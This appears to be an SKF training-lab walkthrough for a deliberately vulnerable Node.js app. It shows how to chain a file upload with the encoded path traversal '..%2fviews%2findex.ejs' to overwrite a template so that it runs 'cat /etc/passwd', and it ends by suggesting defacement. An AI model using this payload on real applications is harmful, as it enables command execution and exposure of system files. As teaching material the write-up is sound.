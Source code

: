 # Command Injection 3

## Running the app on Docker

```
$ sudo docker pull <TBD>
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 <TBD>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The command injection is an attack in which the goal is the execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In the first step, the attacker needs to inspect the functioning of the web app in order to find possible injection points.

We will start by exploring the application, we see there are file upload possibilities and also the home page displays the command prompt output of `'ls -lart'`.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CMD3/1.png)

On attempting to upload file through the file upload functionality, we can notice the uploaded file can be found in the /uploads directory in a normal flow. And what about the command prompt output?, if you closely analyse the index.ejs file under /views folder it includes a system call function. That's interesting right? Is it possible that the application consumes system_call function?

```
<div class="row">
	<div class="col-lg-12">
		<div class="panel panel-primary">
			<div class="panel-heading">
				Monitoring website files system_call('ls -lart')
			</div>
			<div class="panel-body">
				<pre><% system_call('ls -lart') %></pre>
				<pre><%- cmdresponse %></pre>
			</div>
		</div>
	</div>
</div>
```

## Exploitation

Let's think more about this, so we have a file upload possibility as well the application renders the system call from index.ejs to run and display OS command output. what if you as an attacker can exploit this situation and overwrite the index.ejs using the upload function combined with the path traversal. Let's give it go, we can either copy the index.ejs file separately and modify the system call to some other command you would like to run, assume "cat /etc/passwd" or modify the system_call while intercepting using burpsuite. Remember while we upload we also need to modify the upload path to "../views/index.ejs" to overwrite the current rendered index.ejs:

Please note that you should encode slash (/) characters to traverse the directories and write the index.ejs on the correct path.

Encoding of ../views/index.ejs;
```
..%2fviews%2findex.ejs
```

_Modified index.ejs:_

```
<div class="row">
	<div class="col-lg-12">
		<div class="panel panel-primary">
			<div class="panel-heading">
				Monitoring website files system_call('ls -lart')
			</div>
			<div class="panel-body">
				<pre><% system_call('cat /etc/passwd') %></pre>
				<pre><%- cmdresponse %></pre>
			</div>
		</div>
	</div>
</div>
```

Upload the modified file and changed the upload path as follows: ![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CMD3/2.png)

In case, you haven't already modified the system_call locally you may also do it within the intercepted request in burpsuite as follows:

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CMD3/3.png)

Forward the modified request, refresh the page and what do you see :-)? We successfully managed to overwrite the index.ejs and ran OS command of our choice.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/CMD3/4.png)

Can you explore other possibilities using the same attack vector? Why not try to replace some icons or deface the application :-P?

## Additional sources

[https://www.owasp.org/index.php/Command_Injection](https://www.owasp.org/index.php/Command_Injection)

